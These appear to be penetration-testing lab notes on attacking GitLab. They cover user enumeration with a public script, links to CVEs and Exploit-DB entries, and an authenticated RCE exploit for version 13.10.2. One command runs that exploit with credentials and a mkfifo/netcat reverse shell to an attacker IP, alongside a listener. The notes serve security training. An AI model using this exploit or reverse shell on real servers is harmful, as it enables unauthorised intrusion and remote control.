 CVEs: https://www.cvedetails.com/vulnerability-list/vendor_id-13074/Gitlab.html

## User Enumeration

- https://github.com/dpgg101/GitLabUserEnum
- https://www.exploit-db.com/exploits/49821

Login attempt configuration: https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/config/initializers/8_devise.rb

```
./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```


## Authenticated Remote Code Execution

RCE: https://hackerone.com/reports/1154542 (Version 13.10.2)
- https://www.exploit-db.com/exploits/49951
```
python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '
nc -lnvp 8443
```

